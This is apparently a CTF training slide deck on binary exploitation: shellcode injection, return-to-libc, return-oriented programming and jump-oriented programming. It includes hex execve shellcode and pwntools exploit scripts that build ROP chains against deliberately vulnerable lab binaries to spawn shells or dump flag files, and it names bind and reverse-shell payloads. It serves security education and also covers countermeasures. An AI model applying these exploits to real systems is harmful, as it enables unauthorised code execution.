

<!-- _class: invert title -->

# Exploit / Shellcode and Return Oriented Programming

Phish'n'Chips Team

---

## What is covered

- Code injection attack: Shellcode
- Code reuse attack: Return oriented programming (ROP)
- Manipulating shellcode and ROP with `pwntools`
- Recommended readings prior to this material
    - [Basic knowledge of stack-based buffer overflow](../pwn-bof-stack/pwn-bof-stack.pdf)
    - [Basic knowledge of reverse engineering](../intro_reveng/intro_reveng.pdf)

---

## Disclaimer - ethical use of the content

- This material is solely for the purpose of security education, especially for ethical security researchers, security contest participants and penetration testers. The readers agree that they **do not use the technique for malicious purposes**, such as intruding into other people's computers without the owners' content.
- Disclosing exploitation techniques with a malicious intent is a criminal offense in some countries. The author declares that **the material is created without the aim of misuse or encouraging misuse**, and consists of only publicly available techniques. In case any damage occurs by misuse of this document, the person who used the technique against the law takes complete responsiblility for the consequences, and such act or damage shall not be considered grounds for denying legality of this document under any law in any country.

---

## Revisit: buffer overflow to rewrite return address

Overflow buffer to overwrite return address

<div class=twocolumn>

```c
void win() {
    puts("Win!");
    execl("/bin/sh", "/bin/sh", NULL);
}

void func() {
    char x[8] = "ABCDEFGH";
    char y[8] = "XXXXXXXX";
    char z[8] = "IJKLMNOP";

    scanf("%s", y);
    return;
}
```


<!--
```text
Stack
  +------------------------+
z | I  J  K  L  M  N  O  P |
  +------------------------+ scanf()
y | X  X  X  X  X  X  X  X |   |
  +------------------------+   |
x | A  B  C  D  E  F  G  H |   |
  +------------------------+   v
  | ...                    |
  +------------------------+
  | return address         | <-- jump to
  +------------------------+   this addr
  | ...                    |
  +------------------------+
```
-->

</div>

---

## Jump to arbitrary code &ne; execute arbitrary code

- `win` function in the previous example does not usually exist in executables
- Question: if we can jump to arbitrary location of the code, is it possible to execute arbitrary code?
- Answer: yes, depending on executable protection measures
- There are two types of techniques
    - Code injection attack: Create code at some memory location, and then jump to the code
    - Code reuse attack: Re-use existing code to achieve the attacker's intent

---

## Code injection attack

Data and code are both placed in memory in the same way

<div class=twocolumn>

```c
#include <stdio.h>

// 64bit x86
//   31 c0   xor eax,eax # eax = 0;
//   ff c0   inc eax     # eax++;
//   c3      ret         # return eax;
char x[] = "\x31\xc0\xff\xc0\xc3";
typedef int func_t();

int main() {
  func_t *fp = (func_t *)&x;
  printf("%d\n", fp());  // -> print 1
  return 0;
}
```


<!--
```text
CODE  +--------------------------+
 main | 55 48 89 e5 5d ...       |
      +--------------------------+
      :                          :
DATA  +--------------------------+
 x    | 31 c0 ff c0 c3           |<--+
      +--------------------------+   |
                                     |
STACK +--------------------------+   |
      |                          |   |
      +--------------------------+   |
 fp   | address of x             |---+
      +--------------------------+
      :                          :
```
-->
</div>

---

## Code injection attack

If we can place arbitrary data into memory, and execute that data, we can execute arbitrary code

<div class=twocolumn>

```c
char buffer[1024];
typedef int func_t();

int main() {
  func_t *fp = (func_t *)&buffer;
  read(0, buffer, 1024);
  printf("%d\n", fp());
  return 0;
}
```

```console
$ echo 31c0ffc0c3 | xxd -r -p | ./program
1
$ echo 31c0ffc0ffc0c3 | xxd -r -p | ./program
2
$ echo 31c0ffc0ffc0ffc0c3 | xxd -r -p | ./program
3
```

</div>

---
<!-- _class: handson -->

## :memo: hands-on (1): simple code generation (x86-**64**) (`chal1`)

<div class=twocolumn>

1. Create a function returning a constant 123 in x86-64 code.
2. Input the function code to the program `chal1` to execute the code.
   ```c
   char buffer[1024];
   typedef int func_t();
   
   int main() {
     func_t *fp = (func_t *)&buffer;
     read(0, buffer, 1024);
     printf("%d\n", fp());
     return 0;
   }
   ```

Hint:
- You can use compiler/assembler on your own environment, or use online [assembler](http://shell-storm.org/online/Online-Assembler-and-Disassembler/) or [compiler](https://gotbolt.org/)
- You can use
  `echo -ne "\x89\xc3" | ./chal1` or `echo 89c3 | xxd -r -p | ./chal1`
  to input binary data to the program

</div>

---

## Code injection attack - shellcode

- Challenge: creating binary code for each attack is a tedious task
- Solution: only execute the first attack step by code injection attack,
  and do the high level task afterwards

What would be the first attack step?
<span style="font-size: 2em">**execute /bin/sh**</span> (on Linux)

This kind of code is called **shellcode**, since it executes *shell*

---

## Code injection attack - shellcode

How we can execute shell in x86-64 Linux?
simplest solution (but not always work):

<div class=twocolumn>

```c
#include <stdlib.h>
void binsh() {
  char s[] = "/bin/sh";
  system(s);
}
```

```x86asm
  movabs  rax, 0x68732f6e69622f
  mov     qword ptr [rsp], rax
  mov     rdi, rsp
  call    system
  ret
```
</div>

- Problem
    - does not work if the program doesn't have `system` function
    - if address space is randomized, attacker cannot determine `system` address

---

## Code injection attack - shellcode

Portable shellcode in x86-64 Linux

<div class=twocolumn>

```c
#include <unistd.h>

void binsh() {
    char cmd[] = "/bin/sh";
    char *cmds[] = {cmd, NULL};
    // execve(cmd, cmds, NULL);
    syscall(0x3b, cmd, cmds, NULL);
}
```

```x86asm
  movabs  rax, 29400045130965551
  sub     rsp, 40
  xor     edx, edx
  lea     rdi, [rsp+8]
  lea     rsi, [rsp+16]
  mov     QWORD PTR [rsp+8], rax
  mov     QWORD PTR [rsp+24], 0
  mov     QWORD PTR [rsp+16], rdi
  mov     eax, 0x3b
  syscall
  add     rsp, 40
  ret
```

</div>

---

## Code injection attack - shellcode

Let's assemble the above shellcode and input to the program:

```
$ echo 48b82f62696e2f7368004883ec2831d2488d7c2408488d742410488944240848 \
c74424180000000048897c2410b83b0000000f054883c428c3 | xxd -r -p | ./chal1
$
```

It seems that nothing happens - actually the shell spawns, but input EOF is reached so it doesn't do anything.

What should we do? Let's use pwntools for input/output interaction!


---
<!-- _class: handson -->

## :memo: hands-on (2): shellcode execution (x86-**64**) (`chal1`)

This challenge shares `chal1` binary.
Write a script with `pwntools` to execute shellcode in `chal1` program.

```python
from pwn import *

shellcode = ... # put the shellcode here!
                # hint: bytes.fromhex("....") or b"\x..\x.."

p = process('./chal1')
p.send(shellcode)      # input shellcode to the program
p.interactive()        # drop into interactive shell
```

---

## Code injection attack - combine with stack overflow

If an attacker can **put data into static location** (known address) and **overwrite return address**, then arbitrary code execution is possible, by (1) putting shellcode into the static buffer (2) let return address point to the static buffer

<div class=twocolumn>

```c
char buf1[256];

void f() {
  char buf2[64];

  read(0, buf1, 256); // 1st
  puts(buf1);

  read(0, buf2, 256); // 2nd
  puts(buf2);
}
```


<!--
```text
DATA   +-------------------------+ read() 1st
 buf1  | shellcode (256 bytes)   |   |  <--------+
       |                         |   V           |
       +-------------------------+   -           |
                                                 |
                                                 |
STACK  +-------------------------+ read() 2nd    |
 buf2  | (64 bytes)              |   |           |
       +-------------------------+   |           |
       | ...   (saved BP)        |   |           |
       +-------------------------+   V           |
       | return addr -> buf1     | --------------+
       +-------------------------+ (overwritten)
       :                         :
       +-------------------------+
```
-->

</div>

---
<!-- _class: handson -->

## :memo: hands-on (3): stack overflow & shellcode (x86-**64**) (`chal3`)

Let's write script using `pwntools` to 

<div class=twocolumn>

```c
char buf1[256];

void f() {
  char buf2[64];

  read(0, buf1, 256); // 1st
  puts(buf1);
  read(0, buf2, 256); // 2nd
  puts(buf2);
}
```

Hint:
1. Understand at the stack layout depicted in the previous page.
2. What is the address of `buf1`?
3. Where is the offset of return address from `buf2` in the second `read()`?

</div>

---
<!-- _class: handson -->

## :memo: hands-on (3): stack overflow & shellcode - solution (partial)

<div style="font-size: 0.8em">

```python
from pwn import *

shellcode = ... # put shellcode here (max 256 bytes)
buf1_addr = ... # put address of buf1 here
retaddr_offset = 72 # offset of return address from buf2

shellcode += b'\xcc' * (256 - len(shellcode)) # pad to 256 bytes

p = process('./chal3')

# this value is put into buf1
p.send(shellcode)
print(p.recv())

# this value is put into buf2
p.send(b'A' * retaddr_offset + p64(buf1_addr))  # overwrite return address

p.interactive()
```

</div>

---

## Shellcode generation - pwntools

pwntools has a functionality to generate shellcode: [shellcraft](http://docs.pwntools.com/en/stable/shellcraft.html) module

- Example for x86-64 Linux:
  ```python
  from pwn import *
  context.arch = 'amd64'    # set assembler environment

  # generate shellcode (assembly code)
  shellcode_asm = shellcraft.amd64.linux.sh()
  print(shellcode_asm)

  # assemble the shellcode
  shellcode_bin = asm(shellcode_asm)
  print(shellcode_bin.hex())
  ```

---

## Shellcode generation - pwntools

pwntools also has functions to do more complicated operations, such as reading/printing file, connect back to attacker's machine, ...

```python
# open, read and print "flag.txt" file
code = shellcraft.amd64.linux.cat('flag.txt')

# listen on port 12345 and execute shell on connection
code = shellcraft.amd64.linux.bindsh(12345, 'ipv4')

# conduct a fork bomb attack (local DoS)
code = shellcraft.amd64.linux.forkbomb()
```

---

## Countermeasures to shellcode

- W&oplus;X (also known as NX bit)
    - data located at stack and writable data region cannot be executed
    - Mostly programs adopts W&oplus;X in recent systems
    - However, there are still some cases where W&oplus;X is not easily applicable
      (e.g., script language interpreters which use JIT compilation)
- General security measures
    - limit system calls (e.g., restict `exec` using [seccomp](https://en.wikipedia.org/wiki/Seccomp))
    - shellcode detection (but may be evaded by obfuscation)

---

## What can we do, if the program adopts W&oplus;X?

- Shellcode cannot be used any longer
    - Writable memory region is not executable
    - Can only execute already existing code
- **Code reuse attack**
    - Existing code can be executable
    - Take advantage of original code fragments
        - Reuse an existing function as it is: **Return to libc**
        - Concatenate code fragments: **Return oriented programming**

---

## Code reuse attack - return to libc (x86-**32**)

jump to a function address, but also **specifying its arguments** on the stack

<div class=twocolumn>

Basic attack


<!--
```
+-------------+ read()
| buffer      |   |
+-------------+   | overflow
|             |   |
+-------------+   | [nullary func]
| -> win()    |   | return addr
+-------------+   V
|             |
+-------------+
|             |
+-------------+
```
-->

Return to libc


<!--
```
+-------------+ read()
| buffer      |   |
+-------------+   | overflow
|             |   |
+-------------+   | [unary func]
| -> system() |   | return addr
+-------------+   |
|  ------     |   | (dummy)
+-------------+   |
| ->"/bin/sh" |   | (arg 1)
+-------------+   V
```
-->

</div>

---
<!-- _class: handson -->

## :memo: hands-on (4): return to libc (x86-**32**) (`chal4`)

Let's run `system("/bin/sh")`!

<div class=twocolumn>

```c
char binsh[] = "/bin/sh";

void my_system(const char *cmd) {
  system(cmd);
}
void f() {
  char buf[16];
  read(0, buf, 64);
  printf("Hello, %s! Your ID is:\n", buf);
  my_system("id");
}
int main() {
  f();
  return 0;
}
```

Hint:
1. What is the offset of return address from the beginning of the buffer?
2. Which function can be used to execute shell? What should be the argument(s)?
3. Where should the function pointer (address) and arguments be located?

<br>

</div>

---
<!-- _class: handson -->

## :memo: hands-on (4): return to libc (x86-**32**) - solution (partial)

```python
from pwn import *
context.arch = 'i386'

binsh = ...     # address of "/bin/sh" string
my_system = ... # address of my_system function

payload = b'A' * 28 + p32(my_system) + b'A'*4 + p32(binsh)

p = process('./chal4')
p.send(payload)
p.interactive()
```

---

## Code reuse attack - challenges in return-to-libc

- It can only execute one function
    - far from "arbitrary code execution", which is possible in shellcode
- If a useful function is not present, this technique is not applicable
- In x86-**64**, arguments are passed by registers, thus not applicable

Solution: **Return Oriented Programming** (**ROP**)

- Chain calls using "next" return address
- Use not only entire functions, but also code fragments which are terminated by a return instruction (**ROP gadget**)
- Use code fragments (ROP gadgets) for various operations: setting registers, discarding stack elements as well as executing arbitrary instructions

---

## Code reuse attack - ROP (x86-**32**): chaining calls

example for `gets(str); printf("name=%s", str);` in x86-**32**


<!--
```text
                                                           expected payload (merged)
         +--------------+                                   +--------------+
         | buffer       |                                   | AAAA ...     |
         +--------------+                                   +--------------+
         |              |                                   | AAAA ...     |
 vuln()  +--------------+                                   +--------------+
ret addr | -> gets()    |                             ==>   | -> gets()    |
         +--------------+  gets()   +--------------+        +--------------+
         |  ------      | ret addr  | -> printf()  |        | -> printf()  |
         +--------------+           +--------------+        +--------------+
         | -> str       |           |  ------      |        | -> str       |
         +--------------+           +--------------+        +--------------+
         |  ------      |           | -> "name=%s" |        | -> "name=%s" |
         +--------------+           +--------------+        +--------------+
         |  ------      |           | -> str       |        | -> str       |
         +--------------+           +--------------+        +--------------+
```
-->

Note: this only works if the first function is unary, and at most two functions are called

---

## Code reuse attack - ROP (x86-**32**): discard stack

If we need to chain calls more than twice, we need to adjust stack pointer by discarding some stack elements by discarding gadget (e.g. `pop ebp; ret`)
`func1(argA, argB); func2(argC, argD); func3(argE);`


<!--
```text
   vuln() executed             discard2 -> /-------------\
     +--------------+                      | pop eax     |
     | buffer       |                      | pop ebx     |
     +--------------+                      | ret         |
     |              |                      \-------------/               complete ROP chain
     +--------------+                            discard gadget           +--------------+
 ret | -> func1()   |     func1() executed                                | -> func1()   |
     +--------------+-=-=-=-+--------------+                              +--------------+
     | (ret addr)   |       | -> discard2  |                              | -> discard2  |
     +--------------+       +--------------+                              +--------------+
     | argA         |       | (discarded)  |                              | argA         |
     +--------------+       +--------------+                              +--------------+
     | argB         |       | (discarded)  |                              | argB         |
     +--------------+       +--------------+                              +--------------+
                            | -> func2()   |     func2() executed         | -> func2()   |
                            +--------------+-=-=-=-+--------------+       +--------------+
                            | (ret addr)   |       | -> discard2  |       | -> discard2  |
                            +--------------+       +--------------+       +--------------+
                            | argC         |       | (discarded)  |       | argC         |
                            +--------------+       +--------------+       +--------------+
                            | argD         |       | (discarded)  |       | argD         |
                            +--------------+       +--------------+-=-=-=-+--------------+
                                                   | -> func3()   |       | -> func3()   |
                                                   +--------------+       +--------------+
                                                   | (ret addr)   |       |  ------      |
                                                   +--------------+       +--------------+
                                                   | argE         |       | argE         |
                                                   +--------------+       +--------------+
```
-->

---

## Code reuse attack - ROP: finding ROP gadgets

How can we find "discard" gadget (e.g., `pop eax; pop ebx; ret`)?

- [ROPgadget](http://shell-storm.org/project/ROPgadget/) program
  ```console
  $ pip install ROPGadget
  $ ROPgadget --binary ./binaryprogram
  ...
  0x0804856a : pop ebp ; ret
  0x08048567 : pop ebx ; pop esi ; pop edi ; pop ebp ; ret
  0x0804833d : pop ebx ; ret
  ...
  ```
- pwntools (described later)

---
<!-- _class: handson -->

## :memo: hands-on (5): ROP (x86-**32**) - discard stack (`chal5`)

Create `flag.txt` with arbitrary content. Dump the content of `flag.txt` by calling `read_file` / `print_data` with appropriate parameters using a ROP chain.

<div class=twocolumn style="font-size: 0.75em">

```c
char buf[1024];
void read_file(const char *filename,
               char *buf, int size) {
  FILE *fp = fopen(filename, "r");
  fread(buf, 1, size, fp);
  fclose(fp);
}
void print_data(char *buf) {
  puts(buf);
}
void vuln() {
  char stkbuf[64];
  read(0, buf, 1024);
  memcpy(stkbuf, buf, 1024);
}
```

<div>

Hint:
1. Write a normal program using only the two functions to dump `flag.txt`.
2. Convert each call into ROP form.
3. Find discard gadgets.
4. Adjust stack after call by discard gadget.
5. Identify the offset of return address from `stkbuf`.
6. Consider buffer layout to put constant string `"flag.txt"` and file data.
7. Put everything together into a script.

</div>
</div>

---
<!-- _class: handson -->

## :memo: hands-on (5): ROP (x86-**32**) - discard stack: partial solution

<div class=twocolumn style="zoom: 0.7">

1. Normal program to dump `flag.txt`
   ```c
   read_file("flag.txt", buf, 1024);
   print_data(buf);
   ```
2. Convert each call into ROP form
   
   <!--
   ```
   +---------------+            +---------------+
   | -> read_file  | function   | print_data    |
   +---------------+            +---------------+
   | (next return) |            | (next return) |
   +---------------+            +---------------+
   | -> "flag.txt" | arg1       | -> buf        |
   +---------------+            +---------------+
   | -> buf        | arg2
   +---------------+
   | 1024          | arg3
   +---------------+
   ```
   -->
3. Find discard gadgets
   ```console
   $ ROPgadget --binary ./chal5
   ...
   0x0804833d : pop ebx ; ret
   0x08048569 : pop edi ; pop ebp ; ret
   0x08048568 : pop esi ; pop edi ; pop ebp ; ret
   ...
   Unique gadgets found: 149
   ```
4. Adjust stack after call by discard gadget.
   
   <!--
   ```text
   +---------------+
   | -> read_file  | call read_file
   +---------------+
   | -> discard3   | discard 3 stack elements and jump to next function
   +---------------+
   | -> "flag.txt" |     (read_file arg1)     discard3 -> +----------+
   +---------------+                                      | pop esi  |
   | -> buf        |     (read_file arg2)                 | pop edi  |
   +---------------+                                      | pop ebp  |
   | 1024          |     (read_file arg3)                 | ret      |
   +---------------+                                      +----------+
   | -> print_data | call print_data
   +---------------+
   | (next return) | next instruction to be executed after this ROP chain
   +---------------+
   | -> buf        |     (print_data arg1)
   +---------------+
   ```
   -->
5. Identify the offset of return address from `stkbuf`:
   Using a debugger, we can find that the return address (in `main`) is located at 92 bytes offset from the `stkbuf` start.

</div>

---
<!-- _class: handson -->

## :memo: hands-on (5): ROP (x86-**32**) - discard stack: partial solution

<div class=twocolumn style="zoom: 0.7">

6. Consider buffer layout to put constant string `"flag.txt"` and file data.
   `buf` can be used to store both a constant string `"flag.txt"` and file data. The ROP chain itself can be stored at the offset 92 of the buffer (inspect the offset by using debugger)
   
   <!--
   ```text
     +0 +-------------------------+ <- buf  ----- +0
        | "flag"                  | <-----+   ^
        | ".txt"                  |       |   |
     +8 +-------------------------+       |   |
        | "\0"                    |       |   | stkbuf[64]
    +12 +-------------------------+       |   |
        :                         :       |   |
        :                         :       |   v
    +64 +-------------------------+       | ----- +64
        :                         :       |   ^
        :                         :       |   |
    +92 +-------------------------+       |   |
        | -> read_file            |       |   | overflowen
    +96 +-------------------------+       |   | onto stack
        | -> discard3 gadget      |       |   | when copied
   +100 +-------------------------+       |   |
        | -> "flag.txt" (buf)     | ------+   |
   +104 +-------------------------+           |
        : (the rest of ROP chain) :           v
        +-------------------------+         ----- +1024
   ```
   -->
7. Write a script
   ```python
   from pwn import *

   retaddr_offset = 92
   rop_chain = b'flag.txt'
   rop_chain += b'\x00' * (retaddr_offset - len(rop_chain))
   rop_chain += p32(0x80484d6) # read_file
   rop_chain += p32(0x8048568) # gadget: discard 3 stack
   rop_chain += p32(0x804a060) #   arg1: "flag.txt" == buf
   rop_chain += p32(0x804a060) #   arg2: buf
   rop_chain += p32(1024)      #   arg3: 1024 (len)
   rop_chain += p32(0x8048517) # print_data
   rop_chain += p32(0)         # dummy (next return)
   rop_chain += p32(0x804a060) #   arg1: buf

   p = process('./chal5')
   p.send(rop_chain)
   p.interactive()
   ```

</div>

---

## Code reuse attack - ROP: set register

<div class=twocolumn style="font-size: 0.8em">

- In **64bit** x86 architecture, we have another problem:
    - calling convension - the arguments (up to 6) are not passed through stack but through registers
      args: `rdi`, `rsi`, `rdx`, `rcx`, `r8`, `r9`, (stack)
- Solution: set register gadget
    - `pop rdi; ret`: set 1st argument (`rdi`)
    - `pop rsi; ret`: set 2nd argument (`rsi`)
- ROP chain for `func(arg1, arg2);`
  
  <!--
  ```text
  +-------------------+
  | -> set rdi gadget |  -> pop rdi; ret
  +-------------------+
  | arg1              |  (stored in rdi)
  +-------------------+
  | -> set rsi gadget |  -> pop rsi; ret
  +-------------------+
  | arg2              |  (stored in rsi)
  +-------------------+
  | -> func           |  call func after setting args
  +-------------------+
  ```
  -->

</div>

---

## Code reuse attack - ROP: set register

<div class=twocolumn style="font-size: 0.8em">

- "set register" gadget may not present in the simplest form
    - for example `pop rsi; ret` may not be present in the binary
- In that case, look for alternative gadgets which can update the register
    - It is fine if other registers are popped at the same time:
      `pop rsi; pop r15; ret`
      in this case `r15` is not used by the callee function, so can be overwritten (clobbered) safely
- ROP chain for `func(arg1, arg2);`
  where `pop rsi; ret` gadget is not available
  and `pop rsi; pop r15; ret` gadget is used
  
  <!--
  ```text
  +-----------------------+
  | -> set rdi gadget     |  -> pop rdi; ret
  +-----------------------+
  | arg1                  |  (stored in rdi)
  +-----------------------+
  | -> alternative gadget |  -> pop rsi; pop r15; ret
  +-----------------------+
  | arg2                  |  (stored in rsi)
  +-----------------------+
  | (dummy)               |  (stored in r15)
  +-----------------------+
  | -> func               |  call func after setting args
  +-----------------------+
  ```
  -->

</div>

---
<!-- _class: handson -->

## :memo: hands-on (6): ROP (x86-**64**) - set register (`chal6`)

Create `flag.txt` with arbitrary content. Dump the content of `flag.txt` by
(1) generating a command string `cat flag.txt` by calling `make_cat_command` and
(2) running the command string by calling `run_shell`.

<div class=twocolumn style="font-size: 0.75em">

```c
char buf[1024];
char flag_filename[] = "flag.txt";

void make_cat_command(char *command, char *filename) {
  sprintf(command, "cat %s", filename);
}
void run_shell(char *command) {
  system(command);
}
void vuln() {
  char stkbuf[64];
  read(0, stkbuf, 1024);
}
```

<div>

Hint:
1. Write a normal program using the functions.
2. Find register setting gadgets for `rdi` and `rsi`.
3. Convert each call into ROP form, using the gadgets.
4. Combine the calls to generate a ROP chain.
5. Identify the offset of return address from `stkbuf`.
6. Write a script to generate the payload.

</div>
</div>

---
<!-- _class: handson -->

## :memo: hands-on (6): ROP (x86-**64**) - set register: partial solution

<div class=twocolumn style="font-size: 0.8em">

1. Write a normal program using the functions
   ```c
   make_cat_command(buf, flag_filename);
   run_shell(buf);
   ```
2. Find register setting gadgets for `rsi` and `rdi`
   ```console
   $ ROPgadget --binary ./chal6
   ...
   0x0000000000400663 : pop rdi ; ret
   0x0000000000400661 : pop rsi ; pop r15 ; ret
   ```
3. Convert each call into ROP form
   ```text
   +---------------------+                               +---------------------+
   | -> set rdi gadget   |  -> pop rdi; ret              | -> set rdi gadget   |  -> pop rdi; ret
   +---------------------+                               +---------------------+
   | buf                 |  set arg1                     | buf                 |  set arg1
   +---------------------+                               +---------------------+
   | -> set rsi gadget   |  -> pop rsi; pop r15; ret     | -> run_shell        |  call func
   +---------------------+                               +---------------------+
   | flag_filename       |  set arg2
   +---------------------+                    0x400661 -> /---------\  0x400663 -> /---------\
   | (dummy)             |  (stored in r15)               | pop rsi |              | pop rdi |
   +---------------------+                                | pop r15 |              | ret     |
   | -> make_cat_command |  call func                     | ret     |              \---------/
   +---------------------+                                \---------/
   ```
4. Combine the calls to generate a ROP chain.
   ```text
   +---------------------+
   | -> set rdi gadget   |
   +---------------------+
   | buf                 |
   +---------------------+
   | -> set rsi gadget   |
   +---------------------+
   | flag_filename       |
   +---------------------+
   | (dummy)             |
   +---------------------+
   | -> make_cat_command |
   +---------------------+
   | -> set rdi gadget   |
   +---------------------+
   | buf                 |
   +---------------------+
   | -> run_shell        |
   +---------------------+
   ```

</div>

---
<!-- _class: handson -->

## :memo: hands-on (6): ROP (x86-**64**) - set register: partial solution

<div class=twocolumn style="font-size: 0.6em">

5. Identify the offset of return address from `stkbuf`.
   ```text
   $ gdb ./chal6
   (gdb) disas vuln
      ...
      0x00000000004005be <+31>:    leaveq
      0x00000000004005bf <+32>:    retq
   (gdb) break *0x4005bf
   (gdb) run
   AAAAAAAA
   Breakpoint 1, 0x00000000004005bf in vuln ()
   (gdb) bt
   #0  0x00000000004005bf in vuln ()
   #1  0x00000000004005ce in main ()
   (gdb) x/32xw $rsp-0x60
   0x7fffffffdf28: 0xf7ffe190      0x00007fff      0x00000001      0x00000000
   0x7fffffffdf38: 0x004005bd      0x00000000      0x41414141      0x41414141
   0x7fffffffdf48: 0xffffdf0a      0x00007fff      0x00000001      0x00000000
   0x7fffffffdf58: 0x0040062d      0x00000000      0xf7fbbfc8      0x00007fff
   0x7fffffffdf68: 0x004005e0      0x00000000      0x00000000      0x00000000
   0x7fffffffdf78: 0x00400470      0x00000000      0xffffdf90      0x00007fff
   0x7fffffffdf88: 0x004005ce      0x00000000      0x00000000      0x00000000
   0x7fffffffdf98: 0xf7df20b3      0x00007fff      0xf7ffc620      0x00007fff
   ```
   In this layout, return address `0x4005ce` is located at a=`0x7fffffffdf88` and the buffer (stores user input `0x41414141`) starts at b=`0x7fffffffdf40`, thus the offset is a-b = 0x48 = 72 bytes.
6. Write a script to generate the payload.
   ```python
   from pwn import *

   retaddr_offset = 72
   rop_chain = b'A' * retaddr_offset

   # call make_cat_command(buf, flag_filename);
   rop_chain += p64(0x400663) # set rdi gadget
   rop_chain += p64(0x601080) #    rdi = arg1: buf
   rop_chain += p64(0x400661) # set rsi/r15 gadget
   rop_chain += p64(0x601040) #    rsi = arg2: "flag.txt"
   rop_chain += p64(0)        #    r15 = dummy
   rop_chain += p64(0x400557) # call make_cat_command

   # call run_shell(buf);
   rop_chain += p64(0x400663) # set rdi gadget
   rop_chain += p64(0x601080) #    rdi = arg1: buf
   rop_chain += p64(0x400584) # call run_shell

   p = process('./chal6')
   p.send(rop_chain)
   p.interactive()
   ```
</div>

---

## Code reuse attack - ROP: do it easier with pwntools

- Writing a ROP chain is a tedious task
    - In 32bit environment: consider stack adjustment after call
    - In 64bit environment: consider setting argument registers
- Can this be automated?
    - Answer: yes, using pwntools module [ROP](http://docs.pwntools.com/en/stable/rop/rop.html)

---

## Code reuse attack - ROP: do it easier with pwntools (x86-**32**)

Automate 32bit ROP chains

<div class=twocolumn>

- Writing manually
  ```python
  from pwn import *

  chain = b'A' * 72
  # build chain for func1(buf, 12345)
  chain += p32(0x400100) # func1
  chain += p32(0x400567) # gadget: discard 2
  chain += p32(0x600500) # param1 (buf)
  chain += p32(12345)    # param2 (12345)
  # build chain for func2(buf, 67890)
  chain += p32(0x400200) # func2
  chain += p32(0)        # dummy
  chain += p32(0x600500) # param1 (buf)
  chain += p32(67890)    # param2 (67890)

  p = process('./binary')
  p.send(chain)
  ```
- Writing using `ROP` module
  ```python
  from pwn import *
  context.arch = 'i386'
  e = ELF('./binary')
  r = ROP(e)

  # build chain for func1(buf, 12345)
  r.call('func1', [e.symbols['buf'], 12345])

  # build chain for func2(buf, 67890)
  r.func2(e.symbols['buf'], 67890)

  print(r.dump()) # debug dump

  p = process('./binary')
  p.send(b'A'*72 + r.chain())
  ```
  Much easier to understand!

</div>

---

## Code reuse attack - ROP: do it easier with pwntools (x86-**64**)

Automate 64bit ROP chains

<div class=twocolumn style="font-size: 0.7em">

- Writing manually
  ```python
  from pwn import *

  chain = b'A' * 72
  # build chain for func1(buf, 12345)
  chain += p64(0x400678) # gadget: pop rdi
  chain += p64(0x600500) # param1 (buf)
  chain += p64(0x400987) # gadget: pop rsi
  chain += p64(12345)    # param2 (12345)
  chain += p64(0x400100) # func1
  # build chain for func2(buf, 67890)
  chain += p64(0x400678) # gadget: pop rdi
  chain += p64(0x600500) # param1 (buf)
  chain += p64(0x400987) # gadget: pop rsi
  chain += p64(67890)    # param2 (12345)
  chain += p64(0x400200) # func2

  p = process('./binary')
  p.send(chain)
  ```
- Writing using `ROP` module
  ```python
  from pwn import *
  context.arch = 'amd64'
  e = ELF('./binary')
  r = ROP(e)

  # build chain for func1(buf, 12345)
  r.call('func1', [e.symbols['buf'], 12345])

  # build chain for func2(buf, 67890)
  r.func2(e.symbols['buf'], 67890)

  print(r.dump()) # debug dump

  p = process('./binary')
  p.send(b'A'*72 + r.chain())
  ```
  Much easier to understand!

</div>

---
<!-- _class: handson -->

## :memo: hands-on (7): ROP - using pwntools

- Use pwntools ROP module to solve `chal5` (x86-**32**).
- Use pwntools ROP module to solve `chal6` (x86-**64**).

Takeaway
- ROP module will hide troublesome works (gadget finding, ROP chain building) behind simple APIs (`ROP.call(name, [args ...])`)
- It will also help simplicity and understandability of scripts (writeups)
- However, harder challenges may require us to write complex ROP chains manually, so it is important to understand the mechanism of ROP

---

## Advanced topics

- Shellcode
    - considering buffer location
    - considering data constraints/conversion
    - typical shellcodes in attacks
- Return Oriented Programming
    - using indirect jump instead of return

---

## Shellcode advanced - Considering buffer location

- Problem: shellcode (user input) location may not be easily identified
    - user input may be loaded into dynamic memory location (stack / heap)
    - program may adopt address randomization (ASLR)
- Solution
    - leak the buffer address by other means
        - use buffer *overread* bug (often comes with buffer *overwrite* bug)
        - use `printf` vulnerability

---

## Shellcode advanced - Considering data constraints

- Program does not always accept arbitrary characters
    - may not accept binary string (only ASCII chars)
    - may stop reading/copying at NUL characters (`0x00` byte) - `scanf` / `strcpy`
    - may stop reading at newline characters (`0x0a` / `0x0d` byte) - `fgets`
    - may stop reading at space characters (`0x20` byte) - `scanf`
- Program may convert data
    - may convert UTF-8 to UTF-16

---

## Shellcode advanced - Considering data constraints

- Solutions to data constraints
    - Obfuscation/encoding to not include rejected characters
    - [Alphanumeric shellcode](https://en.wikipedia.org/wiki/Alphanumeric_shellcode)
        - Write shellcode using only ASCII characters (cool!)
- Solutions to data type conversion
    - [Unicode-proof shellcode](http://phrack.org/issues/61/11.html)
    - [base64 shellcode](https://blog.skullsecurity.org/2017/solving-b-64-b-tuff-writing-base64-and-alphanumeric-shellcode)

---

## Shellcode advanced - Typical shellcodes used in attacks

- run a shell in victim's machine
- connect back to attacker's machine
    - "reverse shell"
    - Metasploit uses this feature to intrude into other machines
- add a new user to the system

http://shell-storm.org/shellcode/

---

## ROP advanced - indirect jump instead of return

- ROP gadgets always ends with a return instruction (`ret`), which jumps to the address saved on the stack top
- However, we can use indirect jumps/calls (e.g., `jmp eax` or `call eax`) to jump to arbitrary code location, if `eax` is controllable
- It is called **Jump oriented programming** (**JOP**)
- If ROP gadget is not available, JOP gadget might be used instead
- example
    - `pop edi ; jmp eax`
    - `mov edi, dword ptr [esi] ; jmp ebx`

---

## Solving pwn challenges in CTF

- Now we have learned about:
    - stack-based buffer overflow
    - shellcode
    - return-oriented programming (ROP)
- When can we use these techniques?
    - It depends on **protection measures** used in the challenge
- How we can know about protection measures in the binary?
    - Use `pwn checksec`

---

## Solving pwn challenges - understanding protection measures

If you have `pwntools` installed, you have `pwn` command

<div class=twocolumn>

```console
$ pwn checksec chal1
[*] '/path/to/chal1'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
```

<div>

Protection related to exploitability:
- Stack: if canary found, it may be hard to use stack-based buffer overflow
- NX: if enabled, we cannot use shellcode
